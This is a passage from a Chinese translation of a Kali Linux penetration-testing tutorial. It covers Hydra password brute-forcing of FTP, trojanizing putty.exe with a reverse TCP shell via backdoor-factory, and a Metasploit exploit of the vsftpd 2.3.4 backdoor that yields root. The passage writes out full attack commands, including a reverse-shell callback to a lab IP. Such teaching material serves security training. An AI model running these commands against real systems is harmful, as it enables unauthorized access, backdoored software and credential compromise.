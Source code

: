 # 使用 Hydra 进行密码破解

Hydra 是默认 Kali Linux 安装的一个非常强大和高效的密码破解工具。Hydra 能够破解各种协议的密码，如 FTP、SSH、HTTP 等。Hydra 可以从终端启动，如下图所示：

```
hydra -l user -P passlist.txt ftp://192.168.25.129
```

上述命令将对运行在 IP 地址`192.168.25.129`上的 FTP 服务器发起密码破解攻击，并尝试使用单词列表`passlist.txt`中的所有密码。

！[](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/sec-net-infra-nmap-nss7/img/8336a925-45e9-433d-ae5e-7b330f546345.png)

# 使用后门工厂创建后门

快速查看单词*后门*的词典含义给我们带来了*通过间接或不诚实手段实现*。在计算世界中，后门是隐藏的，用于秘密进入系统的东西。例如，如果我们从某个不知名的人那里得到一个普通的可执行文件，我们可能会感到怀疑。但是，如果我们得到一个看起来很真实的安装程序，我们可能会执行它。然而，该安装程序可能有一个隐藏的后门，可能会打开我们的系统给攻击者。

创建后门通常涉及使用我们的 shellcode 对真实的可执行文件进行修补。Kali Linux 有一个特殊的工具`backdoor-factory`，可以帮助我们创建后门。`backdoor-factory`可以从终端启动，如下图所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/sec-net-infra-nmap-nss7/img/b8828717-27b8-4953-9444-5adcae216d36.png)

现在我们执行如下图所示的命令：

```
root@kali:~# backdoor-factory -f /root/Desktop/putty.exe -s reverse_shell_tcp_inline -H  192.168.25.128 -P 8080
```

这个命令将打开位于`/root/Desktop`的`putty.exe`文件，将反向 TCP shell 注入可执行文件，并配置后门连接到 IP 地址`192.168.25.128`的端口`8080`。

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/sec-net-infra-nmap-nss7/img/449ab564-d3ff-4dc3-ac34-02f899f8c991.png)

# 利用 Metasploit 利用远程服务

在我们继续利用远程目标系统上的服务之前，我们必须知道所有服务正在运行的情况以及它们的确切版本是什么。我们可以通过快速进行 Nmap 扫描来列出服务版本信息，如下图所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/sec-net-infra-nmap-nss7/img/1f5eb0a3-9ef4-43cf-b24e-866fbdbc4d18.png)

前面的结果显示有许多正在运行的服务，我们可以利用 Metasploit 进行攻击。

# 利用 vsftpd

通过 Nmap 扫描和枚举，我们得知我们的目标正在运行 FTP 服务器。服务器版本是 vsftpd 2.3.4，活动在端口`21`上。我们使用`msfconsole`命令打开 Metasploit 框架，然后搜索与 vsftp 匹配的任何漏洞，如下图所示。Metasploit 有一个`vsftpd_234_backdoor`漏洞，我们可以用来攻击目标。

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/sec-net-infra-nmap-nss7/img/259023a6-5f31-4e3f-9422-fc5126c83c4c.png)

我们选择 vsftp 漏洞，并将`RHOST`参数设置为目标的 IP 地址。然后我们运行漏洞，如下图所示。漏洞利用成功，并打开了一个命令 shell。使用`whoami`命令，我们可以知道我们已经获得了对目标的 root 访问权限。
